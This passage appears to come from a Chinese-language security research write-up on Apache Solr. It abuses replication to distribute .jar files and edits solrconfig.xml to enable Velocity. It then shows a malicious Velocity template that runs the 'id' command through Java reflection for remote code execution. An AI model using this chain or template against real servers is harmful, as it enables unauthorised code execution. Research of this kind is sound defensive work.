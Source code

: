   
对于从服务器，笔者配置了一个简单的从服务器复制请求处理程序，指向主服务器实例：  
  
```
<requestHandler name="/replication" class="solr.ReplicationHandler">   <lst name="slave">     <str name="leaderUrl">http://localhost:9000/solr/leader/</str>     <str name="pollInterval">00:00:20</str>   </lst> </requestHandler>
```  
  
  
笔者向主服务器中添加了一些测试数据，以便它有东西可以复制（否则，复制操作将无法执行），并在从服务器实例上执行了"fetchindex"命令。结果，.jar文件成功地从主服务器分发到了从服务器！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2oxoOMcYnGJiby6WNM2BWyav8eOxRYqVFVm47LsULeV9EW8DzS3w7Zr8Zw/640?wx_fmt=png&from=appmsg "")  
  
  
一旦确定可以分发.jar库，我们需要测试是否能够使用它们实际启用Velocity。由于目前已经知道可以远程修改配置文件，为了节省时间，笔者手动编辑了从服务器的solrconfig.xml  
。  
笔者  
添加了一个<lib>  
元素来导入server/solr/follower/conf/  
目录中的所有.jar库，并添加了一个<queryResponseWriter>  
元  
素来启用Velocity：  
  
```
<lib dir="conf/" regex=".*\.jar"/><queryResponseWriter name="velocity" class="solr.VelocityResponseWriter">    <str name="template.base.dir"></str></queryResponseWriter>
```  
  
  
然后，笔者重启了服务器，并访问了/select?q=1&wt=velocity&v.template=browse&v.layout=layout  
，成功渲染了默认的Velocity模板"browse"，这意味着Velocity已被启用。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2ox3fVria98hAzoiacgR0faHicc8iaqMKjvDcEBOZZPUNCzic7UsBMbCO45Nibw/640?wx_fmt=png&from=appmsg "")  
  
  
到目前为止，笔者已经能够通过分发必要的.jar库和自定义solrconfig.xml  
来启用Velocity。  
现在唯一缺少的部分是提供一个恶意的V  
elocity模板，以实现远程代码执行（RCE）。  
在旧版本中，一旦Velocity被启用，可以直接通过/select  
请求  
处理器的URL参数执行自定义模板，类似于之前渲染默认"browse"模板的方式。  
然而，当我尝试这样做时，发现现在Velocity仅支持从本地文件系统加载模板。  
  
  
由于目前已经能够传输任意文件，这并不成问题，因此笔者直接创建了一个恶意模板，并在本地服务器上进行测试，以检查是否真的可以实现RCE。笔者创建了一个简单的模板，它会在服务器上执行id  
命令，并将其保存为server/solr/follower/conf/velocity/rce.vm  
：  
  
```
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])     $str.valueOf($chr.toChars($out.read())) #end
```  
  
  